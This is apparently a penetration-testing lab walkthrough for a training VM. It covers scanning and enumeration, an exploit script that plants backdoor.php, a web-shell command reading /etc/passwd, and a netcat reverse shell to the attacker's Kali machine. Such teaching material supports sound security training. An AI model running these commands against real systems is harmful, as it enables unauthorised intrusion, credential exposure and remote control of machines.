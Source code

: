 Target 2's IP Address: 192.168.1.115

Use Nmap to identify the IP address of Target 2.
192.168.1.115


Use Nmap to document all exposed ports and services at this IP address.


Enumerate the web server with nikto.


Hint: Run: nikto -C all -h <URL>


Note: This creates a list of URLs the Target HTTP server exposes. What kind of website is this VM running?
Apache 2.4.10


Perform a more in-depth enumeration with gobuster.


Hint

Install gobuster using apt

Run gobuster -w /path/to/wordlist dir -u <URL>

Use /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt as your wordlist (-w).
Pay attention to the /vendor directory. There may be a flag in there...





Use searchsploit to find any known vulnerabilities associated with the programs found in Step #4.
Hint: Run searchsploit -h


Use the provided script exploit.sh to exploit this vulnerability by opening an Ncat connection to your Kali VM.


Edit the line at the top of the script that sets the TARGET variable. Set it equal to the IP address of Target 2.


Run the script. It uploads a file called backdoor.php to the target server. This file can be used to execute command injection attacks.


Navigate to: http://<Target 2 URL>/backdoor.php?cmd=<CMD>

This allows you to run bash commands on Target 2.
For example, try: http://<Target 2 URL>/backdoor.php?cmd=cat%20/etc/passwd




Next, use the backdoor to open a shell session on the target.

On your Kali VM, start a netcat listener: nc -lnvp 4444

In the browser, use the backdoor to run: nc <Kali IP> 4444 -e /bin/bash. For example, your query string will look like cmd=nc%20<Kali IP>%204444%20-e%20/bin/bash.





Using the shell you've opened on Target 2, find a flag in /var/www.


Next, find a flag in the WordPress uploads directory.


Hint: Use the find command: find /var/www -type f -iname 'flag*'




If you find all three flags -- congratulations! There is a fourth, but escalating to root is extremely difficult: For now, move on to completing a report about Target 2.